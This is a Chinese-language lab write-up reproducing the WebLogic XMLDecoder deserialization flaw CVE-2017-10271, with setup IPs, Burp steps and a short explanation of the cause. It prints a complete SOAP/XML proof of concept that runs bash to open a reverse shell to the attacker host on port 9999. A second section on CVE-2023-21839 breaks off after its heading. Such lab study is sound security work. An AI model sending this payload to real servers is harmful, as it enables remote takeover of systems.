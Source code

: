 # weblogic反序列化

> CVE-2017-10271	

### 环境准备

- 靶场ip:`192.168.2.254:7001`
- 攻击机ip:`192.168.230.240`

![image-20241026111303547](./assets/image-20241026111303547.png)

### 漏洞复现

![image-20241026111358572](./assets/image-20241026111358572.png)

- 访问url`http://192.168.2.254:7001/wls-wsat/CoordinatorPortType`

![image-20241026112013668](./assets/image-20241026112013668.png)

- 使用`burp`进行抓包,修改请求方法,构造poc(`需要修改为自己的攻击机ip`)

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.230.240/9999 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

- 修改为`post`请求,`content-type`修改为`text/xml`

![image-20241026112225032](./assets/image-20241026112225032.png)

- 使用攻击机监听`9999`端口,然后发送数据包

![image-20241026112443017](./assets/image-20241026112443017.png)

### 漏洞原理

- `Weblogic Server WLS`组件远程命令执行漏洞,主要是由`wls-wsat.war`触发,通过构造`xml格式`的请求,在解析过程中导致`XMLDecodeer`反序列化漏洞

****

# weblogic

> CVE-2023-21839

### 环境准备

![image-20241026113631608](./assets/image-20241026113631608.png)